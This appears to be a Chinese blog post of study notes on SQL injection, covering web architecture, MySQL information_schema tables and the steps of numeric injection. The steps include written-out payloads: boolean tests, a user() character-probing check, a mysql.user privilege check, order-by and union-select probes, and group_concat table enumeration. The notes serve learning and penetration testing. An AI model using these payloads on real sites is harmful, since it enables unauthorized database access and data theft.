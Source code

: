 ```yaml
---
layout: post
title: SQL injer
date: 2021-11-14
categories: blog
tags: [Web渗透,SQL注入]
description: 学习笔记。
---
```

# SQL


## `0`. 基础理论

## Web 程序三层架构

**三层架构**(`3-tier architecture`) 通常意义上就是将整个业务应用划分为：

- 界面层（User Interface layer）
- 业务逻辑层（Business Logic Layer）
- 数据访问层（Data access layer）

区分层次的目的即为了“高内聚低耦合”的思想。在软件体系架构设计中，分层式结构是最常见，也是最重要的一种结构被应用于众多类型的软件开发。
由数据库驱动的Web应用程序依从三层架构的思想也分为了三层：

- 表示层。
- 业务逻辑层（又称领域层）
- 数据访问层（又称存储层）

拓扑结构如下图所示：

> 

在上图中，用户访问实验楼主页进行了如下过程：

在 Web 浏览器中输入 `www.shiyanlou.com` 连接到实验楼服务器。

- 业务逻辑层的 Web 服务器从本地存储中加载 `index.php` 脚本并解析。
- 脚本连接位于数据访问层的 `DBMS`（数据库管理系统），并执行 `Sql` 语句。
- 数据访问层的数据库管理系统返回 `Sql` 语句执行结果给 Web 服务器。
- 业务逻辑层的 Web 服务器将 Web 页面封装成 HTML 格式发送给表示层的 Web 浏览器。
- 表示层的 Web 浏览器解析 HTML 文件，将内容展示给用户。

在三层架构中，所有通信都必须要经过中间层，简单地说，三层架构是一种**线性关系**。

## `1`. SQL注入

> 通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终欺骗服务器执行恶意的SQL命令。

[Sql注入基础原理介绍](https://zhuanlan.zhihu.com/p/35723803)

### 1.1 Sql注入简介

Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台 Sql 服务器上解析执行进行的攻击，它目前黑客对数据库进行攻击的最常用手段之一。

### 1.2 Sql注入的要求

1. 用户能和数据库进行交互（要能输入），且输入是可控的
2. 我们的输入，最终要能在服务器中执行（拼接->编译->执行，缺一不可）

#### # 特殊的数据字典表

下面对一些重要的数据字典表做一些说明：
+ `SCHEMATA`表：提供了关于数据库的信息。
+ `TABLES`表：给出了关于数据库中的表的信息。
+ `COLUMNS`表：给出了表中的列信息。
+ `STATISTICS`表：给出了关于表索引的信息。
+ `USER_PRIVILEGES`表：给出了关于全程权限的信息。该信息源自mysql.user授权表。
+ `SCHEMA_PRIVILEGES`表：给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。
+ `TABLE_PRIVILEGES`表：给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。
+ `COLUMN_PRIVILEGES`表：给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。
+ `CHARACTER_SETS`表：提供了关于可用字符集的信息。
+ `COLLATIONS`表：提供了关于各字符集的对照信息。
+ `COLLATION_CHARACTER_SET_APPLICABILITY`表：指明了可用于校对的字符集。
+ `TABLE_CONSTRAINTS`表：描述了存在约束的表。
+ `KEY_COLUMN_USAGE`表：描述了具有约束的键列。
+ `ROUTINES`表：提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。
+ `VIEWS`表：给出了关于数据库中的视图的信息。
+ `TRIGGERS`表：提供了关于触发程序的信息。

## `2`. SQL注入分类

### 2.1 数字型注入（Post）

#### 2.1.1 简介

> s

#### 2.1.2 注入步骤

+ **#1** 判断注入类型，找到注入点

  ```sql
  xx' 主动闭合'    返回错误
  xx and 1=1 	    返回正确
  xx and 1=2      返回错误
  ```
  满足以上三点则可以下判断，存在数字型注入

  ```sql
  xx id=2-1	2-1=1
  xx id=1%2b1	1+1=2,+号要进行URL编码
  ```

+ **#2** 数据库权限判断

  ```SQL
  and ord(mid(user(),1,1))=114
  ```

  + Ord函数是返回第一个字符的ascii码值。
  
  + Mid函数是用于得到字符串的一部分。这个函数有三个参数，返回值为该部分的ASCII码值。
  
    1. 第一个是`需要得到的字符串`，
    2. 第二位是`从这个函数的第几位开始截取`，
    3. 第三个是`截取的长度`。
  
    那么也就是说，得到字符串user()里面的第一个ascii值。加上后面的那句，=114
  
    总的推出该句的意思就是：倘若得到的第一个字符串的ASCIII码值等于114的话，就返回正确的页面。114的ASCII值是r

  ```
  或 and (select count(*) from mysql.user)>0
  ```

  解释:
  and (select count(*) from mysql.user)>0   /* 如果结果返回正常,说明具有读写权限。
  and (select count(*) from mysql.user)>0   /* 返回错误，应该是管理员给数据库帐户降权了。

+ **#3** 猜出字段数

  ```sql
  xx order by  n(数字)
  ```

+ **#4** 猜出字段位

  ```sql
  and 1=2 union selct 1,2,3
  ```

+ **#5** 猜数据库名

  ```sql
  and 1=2 union select 1,database(),3
  ```

+ **#6** 联合查询 （group_concat()）  点代表下一级

  ```sql
  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='pentest'   
  或 
  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
  ```
  
  > 在MySQL中，==数据库名==存放在`information_schema`数据库下`schemata`表`schema_name`字段中
  >
  > 在MySQL中，==表名==存放在`information_schema`数据库下`tables`表`table_name`字段中
  
  > GROUP_CONCAT(col) 返回由属于一组的列值连接组合而成的结果
  >
  > 也就是将多个返回值拼贴成一个字符串

#### 2.1.3 注意细节

注入过程中的"`+`"号要进行url编码，因为"`+`"号在SQL中有特殊含义(外连接)，"`-`"就不用编码了

### 2.2 字符型注入（Get）













